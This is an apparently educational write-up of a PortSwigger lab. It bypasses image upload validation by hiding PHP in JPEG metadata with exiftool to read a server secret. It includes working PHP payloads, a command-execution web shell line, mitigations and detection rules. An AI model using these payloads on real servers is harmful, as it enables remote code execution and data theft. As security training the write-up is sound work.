

---

# Lab: Remote Code Execution via Polyglot Web Shell Upload

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Practitioner  
**Lab Link:** [Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

**Given credentials:** `wiener:peter`

---

## Executive Summary

The lab contains an image upload functionality with **robust file validation** that:
- Checks file extensions (blacklist)
- Validates `Content-Type` headers
- **Verifies actual file contents** to ensure it's a genuine image

However, it is still vulnerable to a **polyglot attack** – embedding malicious PHP code inside legitimate image metadata. The server validates the file as a valid image but saves it with a `.php` extension, leading to **remote code execution (RCE)** when the file is accessed.

The vulnerability stems from **insufficient sanitization of image metadata** combined with the server allowing `.php` files that are also valid images.

---

## Technical Details

### Environment
- **Web Server:** Supports PHP execution
- **Upload Directory:** `/files/avatars/`
- **Validation Level:** Content-based (image magic bytes verification)
- **Vulnerability Type:** Polyglot file upload / metadata injection

### Key Concept: Polyglot File

A **polyglot** is a file that is valid in multiple formats simultaneously:
- ✅ Valid JPEG image (passes server content validation)
- ✅ Contains PHP code (executes when accessed as `.php`)

---

## Exploitation Steps

### Phase 1: Reconnaissance & Initial Attempt

1. Logged in as `wiener:peter`
2. Created `exploit.php`:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

3. Attempted to upload the script as avatar → **Blocked**

**Observation:** Server has content-based validation. Previous bypass techniques (MIME type modification, double extensions, `.htaccess`) fail here.

---

### Phase 2: Create Polyglot File Using ExifTool

**Command used:**
```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
```

**Explanation:**

| Parameter | Purpose |
|-----------|---------|
| `exiftool` | Metadata manipulation tool |
| `-Comment="..."` | Injects PHP code into JPEG's Comment field |
| `input.jpg` | Legitimate JPEG file (provides valid image structure) |
| `-o polyglot.php` | Outputs as `.php` extension |

**PHP payload breakdown:**
```php
<?php 
echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; 
?>
```

**Resulting file:** `polyglot.php`
- ✅ Valid JPEG structure (passes image validation)
- ✅ Contains PHP payload in metadata
- ✅ Has `.php` extension

---

### Phase 3: Upload Polyglot File

1. Navigated to avatar upload functionality
2. Selected `polyglot.php`
3. Clicked upload

**Server response:** "Your avatar has been updated successfully" ✅

**Why it worked:**
- Server checked magic bytes → valid JPEG
- File structure was completely valid
- PHP code in metadata didn't break JPEG validation
- The `.php` extension was accepted

---

### Phase 4: Execute Web Shell and Retrieve Secret

1. Navigated to account page
2. In Burp Proxy history, located `GET /files/avatars/polyglot.php`
3. Used search feature (Ctrl+F) to find `START`
4. Found secret in response:

```
START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END
[Binary JPEG data continues...]
```

**Why the secret appears:** PHP executes the code before outputting binary image data, so the secret appears at the beginning of the response.

---

### Phase 5: Submit Secret

1. Copied `2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ`
2. Submitted via lab banner button

**Lab solved.** ✅

---

## Attack Chain Diagram

```
1. Create legitimate JPEG image
   ↓
2. Inject PHP code into Comment metadata (ExifTool)
   ↓
3. Save as polyglot.php
   ↓
4. Upload to server as avatar
   ↓
5. Server validates: "Valid JPEG structure" ✅
   ↓
6. Server saves as /files/avatars/polyglot.php
   ↓
7. Attacker requests GET /files/avatars/polyglot.php
   ↓
8. PHP interpreter executes code in Comment field
   ↓
9. Secret read from /home/carlos/secret
   ↓
10. Secret returned in response (between START/END)
```

---

## Root Cause Analysis

| **Vulnerability** | **Why it exists** |
|-------------------|-------------------|
| **Content validation doesn't sanitize metadata** | Server checks image validity but doesn't remove metadata |
| **.php extension allowed** | Server accepts `.php` files that pass content validation |
| **Metadata executed as code** | PHP interpreter doesn't distinguish between image data and code |
| **No image re-encoding** | Server saves original file instead of generating a clean version |

---

## Impact Assessment

| Impact | Severity |
|--------|----------|
| Remote Code Execution (RCE) | **Critical** |
| Arbitrary file read | **Critical** |
| Full server compromise | **Critical** |
| Data exfiltration | **High** |

With a more powerful payload:
```php
<?php system($_GET['cmd']); ?>
```
An attacker could execute any system command.

---

## Mitigation Recommendations

### 1. Re-encode Images (Most Important)

```php
$img = imagecreatefromjpeg($_FILES['file']['tmp_name']);
$outputPath = $uploadDir . bin2hex(random_bytes(16)) . '.jpg';
imagejpeg($img, $outputPath, 90);
imagedestroy($img);
```

This strips all metadata, including malicious code.

### 2. Use Whitelist for Extensions

```php
$whitelist = ['jpg', 'jpeg', 'png', 'gif'];
if (!in_array($ext, $whitelist)) {
    die('Only images allowed');
}
```

### 3. Rename Uploaded Files

```php
$newName = bin2hex(random_bytes(16)) . '.jpg';
move_uploaded_file($tmp, $uploadDir . $newName);
```

### 4. Disable PHP Execution in Upload Directories

**Apache (.htaccess):**
```apache
php_flag engine off
```

**Nginx:**
```nginx
location /files/avatars/ {
    location ~ \.php$ { return 403; }
}
```

### 5. Validate MIME Type with finfo

```php
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mimeType = finfo_file($finfo, $_FILES['file']['tmp_name']);
if (!in_array($mimeType, ['image/jpeg', 'image/png'])) {
    die('Invalid file type');
}
```

---

## Defense in Depth Checklist

| Layer | Control | Status |
|-------|---------|--------|
| 1 | Whitelist allowed extensions | ✅ |
| 2 | Validate MIME type (magic bytes) | ✅ |
| 3 | **Re-encode images (strip metadata)** | ⚠️ **Critical missing layer** |
| 4 | Rename uploaded files | ✅ |
| 5 | Store files outside web root | ⚠️ |
| 6 | Disable script execution in upload dir | ✅ |
| 7 | Scan for malicious patterns | ⚠️ |

**Layer 3 is critical** – re-encoding physically removes embedded code.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| ExifTool | Inject PHP code into JPEG metadata |
| Burp Suite Professional | Intercept requests, search responses |
| PHP | Web shell payload |

---

## Indicators of Compromise (IoCs)

| Type | Value |
|------|-------|
| Uploaded filename | `polyglot.php` (or any `.php` in image directory) |
| File metadata | Comment field contains `<?php` tags |
| Requests | `POST /my-account/avatar` with `filename="*.php"` |
| Access patterns | `GET /files/avatars/*.php` |
| Response pattern | `START [a-zA-Z0-9]+ END` before binary data |

**Detection query:**
```sql
SELECT * FROM access_log 
WHERE uri_path LIKE '/files/avatars/%.php' 
  AND response_body LIKE '%START%END%';
```

---

## References

- [PortSwigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
- [OWASP: Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [ExifTool Documentation](https://exiftool.org/)
- [Polyglot files: A hacker's best friend](https://blog.doyensec.com/2020/02/19/polyglot.html)

---

## Lessons Learned

1. **Content validation alone is insufficient** – metadata can contain executable code
2. **Polyglot attacks bypass naive image validation** – a file can be both valid image AND malicious script
3. **Re-encoding images is the only reliable defense** – stripping metadata physically removes embedded code
4. **File extension matters critically** – accessing `.php` triggers PHP interpreter
5. **Defense in depth is necessary** – multiple layers (validation + sanitization + isolation)

---

**Prepared by:** Tsegazeab Fikre  
**Date:** 28Apr 2026  
**Classification:** Educational / CTF Write-up  
**Tags:** `#RCE` `#FileUpload` `#Polyglot` `#WebSecurity` `#PortSwigger` `#ExifTool`

---

This write-up demonstrates how even **robust content-based validation** can be bypassed using polyglot techniques, emphasizing that **re-encoding images** (not just validating them) is critical for truly secure image upload functionality.

